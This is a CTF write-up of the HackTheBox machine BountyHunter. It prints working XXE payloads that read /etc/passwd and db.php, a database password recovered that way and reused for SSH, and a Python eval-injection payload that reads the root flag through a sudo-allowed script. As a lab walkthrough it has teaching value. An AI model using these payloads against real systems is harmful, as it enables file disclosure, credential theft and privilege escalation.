



# BountyHunter - HackTheBox - Writeup
Linux, 20 Base Points, Easy

## Machine


 
### TL;DR;

To solve this machine, we begin by enumerating open services – finding the ports ```22``` and ```80```.


***User:*** Using [XML External Entity (XXE) attack](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing) to read the file ```db.php``` which includes the credentials of ```development``` user.

***Root:*** By running ```sudo -l``` we found ```/usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py``` script, Create a payload to get the ```root``` flag from python ```eval``` command.


## BountyHunter Solution


### User

Let's start with ```nmap``` scanning:

```console
┌─[evyatar@parrot]─[/hackthebox/BountyHunter]
└──╼ $ nmap -sC -sV -oA nmap/BountyHunter 10.10.11.100
Starting Nmap 7.80 ( https://nmap.org ) at 2021-07-30 17:17 IDT
Nmap scan report for 10.10.11.100
Host is up (0.077s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Bounty Hunters
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's observe port 80 [http://10.10.11.100/](http://10.10.11.100/):


By clicking on Portal we got the following [page](http://10.10.11.100/log_submit.php):



By intercepting the submit request using Burp we got the following:



```data``` contains Base64 string which is:
```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
		<bugreport>
		<title>rce</title>
		<cwe>use after free</cwe>
		<cvss>9.5</cvss>
		<reward>1000</reward>
		</bugreport>
```

We can use XXE to retrieve files, where an external entity is defined containing the contents of a file, and returned in the application's response as follow (Encode it again as Base64):
```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
     <bugreport>
        <title>&xxe;</title>
        <cwe>aaa</cwe>
        <cvss>9.5</cvss>
        <reward>1000</reward>
        </bugreport>
``` 

And we get as a response:



By running ```gobuster``` we can found intersting file called ```db.php```, Let's read it using XXE as follow:
```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
     <bugreport>
        <title>&xxe;</title>
        <cwe>aaa</cwe>
        <cvss>9.5</cvss>
        <reward>1000</reward>
        </bugreport>
```

For this request, We got as a response:
```http
HTTP/1.1 200 OK
Date: Sat, 31 Jul 2021 21:43:57 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 510
Connection: close
Content-Type: text/html; charset=UTF-8

If DB were ready, would have added:
<table>
  <tr>
    <td>Title:</td>
    <td>PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo/Pgo=</td>
  </tr>
  <tr>
    <td>CWE:</td>
    <td>aaa</td>
  </tr>
  <tr>
    <td>Score:</td>
    <td>9.5</td>
  </tr>
  <tr>
    <td>Reward:</td>
    <td>1000</td>
  </tr>
</table>
```

By decoding the Base64 string to got:
```php
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

And we are successfully connected to SSH using ```m19RoAU0hP41A1sTsq6K``` password with ```development``` user (From ```/etc/passwd```):
```console
┌─[evyatar@parrot]─[/hackthebox/BountyHunter]
└──╼ $ ssh development@10.10.11.100
development@10.10.11.100's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 31 Jul 2021 09:44:56 PM UTC

  System load:           0.5
  Usage of /:            27.5% of 6.83GB
  Memory usage:          30%
  Swap usage:            0%
  Processes:             356
  Users logged in:       1
  IPv4 address for eth0: 10.10.11.100
  IPv6 address for eth0: dead:beef::250:56ff:feb9:9e67


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sat Jul 31 20:36:23 2021 from 10.10.14.94
-bash-5.0$ whoami
development
-bash-5.0$ cat user.txt
41c9fc7b3fdee30914fe86d68022f4f1
```

And we get the user flag ```41c9fc7b3fdee30914fe86d68022f4f1```.

### Root

By running ```sudo -l``` we get the following:
```console
-bash-5.0$ sudo -l
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

Let's look at ```/opt/skytrain_inc/ticketValidator.py``` file:
```python
#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

Let's analyze the code, First, We need to give a file with the extension ```.md```.

The first line on the file should be ```# Skytrain Inc```, The second line ```## Ticket to ``` and the third line ```__Ticket Code:__```.

So far we know about three lines:
```
# Skytrain Inc
## Ticket to bla bla bla bla
__Ticket Code:__
```

Let's observe the following lines:
```python
...
if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
...
```

The line after ```__Ticket Code:__``` Should start with ```**```, And should contains also ```+``` And number before the ```+```, This number should ```Number % 7 == 4``` (Example number to this condition is 4).

The intersting line is ```validationNumber = eval(x.replace("**", "")```.

We know about python exploiting dangerous functions: ```eval()```, ```exec()``` and ```input()```.

The ```eval()``` function in python takes strings and executes them as code. For example, eval(‘1+1’) would return 2.

There's a global ```__import__()``` function in python. It accepts a module name and imports it.
Hence,
```__import__('subprocess')```
will import the subprocess module and will return a reference to this module.
Through this, we can execute functions in the OS module with malicious parameters. The crafted ```eval()``` function will look like this: ```eval('__import__("subprocess").getoutput("ls")')```.

So basically we can write the following line:
```
**4+int(__import__("subprocess").getoutput("cat /root/root.txt"))
```

Since the content of ```int(...)``` will run before we can get the code execution.

Final .md file:
```python
# Skytrain Inc
## Ticket to bla bla bla bla
__Ticket Code:__
**4+int(__import__("subprocess").getoutput("cat /root/root.txt"))
```

Run it:
```console
-bash-5.0$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
exp.md
Destination: bla bla bla bla
Traceback (most recent call last):
  File "/opt/skytrain_inc/ticketValidator.py", line 52, in <module>
    main()
  File "/opt/skytrain_inc/ticketValidator.py", line 45, in main
    result = evaluate(ticket)
  File "/opt/skytrain_inc/ticketValidator.py", line 34, in evaluate
    validationNumber = eval(x.replace("**", ""))
  File "<string>", line 1, in <module>
ValueError: invalid literal for int() with base 10: 'a42d62f188e4d07f7328036cd4f2fa2c'
```

And we get the root flag ```a42d62f188e4d07f7328036cd4f2fa2c```.